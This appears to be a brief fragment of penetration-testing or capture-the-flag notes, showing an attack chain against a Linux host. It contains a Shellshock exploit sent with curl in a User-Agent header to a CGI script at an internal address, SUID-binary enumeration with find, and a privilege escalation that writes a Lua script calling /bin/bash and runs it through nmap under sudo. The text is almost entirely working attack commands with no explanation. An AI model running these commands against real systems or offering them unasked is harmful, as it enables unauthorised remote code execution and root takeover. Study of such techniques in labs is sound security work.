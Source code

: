 curl -H "User-Agent: () { :;}; echo; /bin/sudo -l" http://10.8.0.10/cgi-bin/shell.sh

Sudo -l
find hacker -exec whoami \;
find / -perm -u=s -type f 2>/dev/null

 TF=$(mktemp) 
 echo 'os.execute("/bin/bash")' > $TF
sudo nmap --script=$TF 



